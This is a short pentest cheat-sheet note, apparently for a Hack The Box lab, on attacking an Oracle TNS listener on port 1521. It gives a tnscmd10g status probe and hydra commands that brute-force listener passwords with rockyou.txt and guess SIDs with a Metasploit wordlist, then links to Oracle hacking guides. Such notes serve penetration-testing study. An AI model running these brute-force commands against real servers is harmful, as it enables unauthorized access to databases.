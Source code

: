 **Port 1521**

Command to try
```
tnscmd10g status -h 10.10.10.82
```
if you didn't get Any error, the fine. If it shows Error then you have to use hydra to get passwords or SID's

Commands to do so
```
hydra -P /usr/share/wordlists/rockyou.txt -t 32 -s 1521 10.10.10.82 oracle-listener
```
```
hydra -L /usr/share/metasploit-framework/data/wordlists/sid.txt -s 1521 10.10.10.82 oracle-sid -t 64 -I
```

Then Follow the Instructions on the links 
https://medium.com/@netscylla/pentesters-guide-to-oracle-hacking-1dcf7068d573
https://medium.com/@v1per/silo-hackthebox-writeup-cec449e0a4bc
